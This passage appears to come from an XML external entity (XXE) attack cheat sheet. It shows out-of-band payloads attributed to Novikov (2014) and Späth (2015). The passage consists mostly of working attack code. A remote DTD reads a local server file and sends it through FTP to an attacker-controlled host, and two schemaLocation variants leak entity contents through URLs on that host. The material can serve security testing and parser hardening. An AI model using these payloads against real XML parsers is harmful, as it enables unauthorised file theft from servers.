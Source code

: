 ### XXE OOB Attack - Parameter Entities FTP (Novikov, 2014)

Using the FTP protocol, an attacker can read out files of arbitrary length.  
  
```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendftp.dtd">  
%remote;  
%send;  
]>  
<data>4</data>
```
  
File stored on _http://publicServer.com/parameterEntity_sendftp.dtd_  
  
  
```xml
<!ENTITY % payload SYSTEM "file:///sys/power/image_size">  
<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">  
%param1;
```
  
This attack requires to setup a modified FTP server. However, adjustments to this PoC code are probably necessary to apply it to an arbitrary parser.  
  
[Source](https://www.blogger.com/\(http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html)  
  

### SchemaEntity Attack (Späth, 2015)

We identified three variations of this attack using (i) schemaLocation, (ii) noNamespaceSchemaLocation and (iii) XInclude.  
  

### schemaLocation

```xml
<?xml version='1.0'?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/external_entity_attribute.dtd">  
%remote;  
]>  
<ttt:data xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
  xmlns:ttt="http://test.com/attack"  
xsi:schemaLocation="ttt http://publicServer.com/&internal;">4</ttt:data>
```
  

### noNamespaceSchemaLocation

```xml
<?xml version='1.0'?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/external_entity_attribute.dtd">  
%remote;  
]>  
<data xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
    xsi:noNamespaceSchemaLocation="http://publicServer.com/&internal;"></data>
```
